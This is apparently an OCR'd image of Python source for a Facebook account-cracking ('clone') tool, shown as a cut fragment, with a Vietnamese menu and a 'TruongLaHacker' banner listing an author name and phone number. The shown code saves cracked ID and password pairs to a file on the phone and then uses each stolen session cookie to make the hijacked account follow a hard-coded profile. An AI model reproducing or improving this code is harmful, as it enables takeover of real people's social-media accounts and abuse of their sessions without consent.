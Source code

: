 				wrt =('%s - %s' % (idf,pw))
				ok.append(wrt)
				open('/sdcard/TRUONG-OK.txt','a').write('%s\n' % wrt)
				follow(ses,coki)
				break

			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
def follow(ses,coki):
	ses.headers.update({"accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
	r = sop(ses.get('https://mbasic.facebook.com/profile.php?id=100067945261995', cookies={'cookie': coki}).text, 'html.parser')
	get = r.find('a', string='Follow').get('href')
	ses.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text

logo = ("""\033[1;32m

░▀█▀▒█▀▄░█▒█░▄▀▄░█▄░█░▄▀▒
░▒█▒░█▀▄░▀▄█░▀▄▀░█▒▀█░▀▄█
__________________TruongLaHacker______________________
  
  Auther :  Trần Hoài Trường 
  FB     :  Trần Ngọc Khoa 
  Country: Vietnam 
  Phone number     : +84347727336
__________________🇻🇳______________________\033[1;37m""")

class Main:
	def __init__(self):
		self.id = []
		self.ok = []
		self.cp = []
		self.loop = 0
		os.system("clear")
		print(logo)

		print("\n [1] Không dùng được")

		print(" [2] Không dùng được")

		print(" [3] Create File")

		print(" [4] 2009-10 clone")

		print(" [5] 2011-14 clone")

		print(" [E] Exit Programming\n")

		TRUONG =input(" Choose : ")

		if TRUONG in ["1", "01"]:

			File()

		if TRUONG in ["2", "02"]:
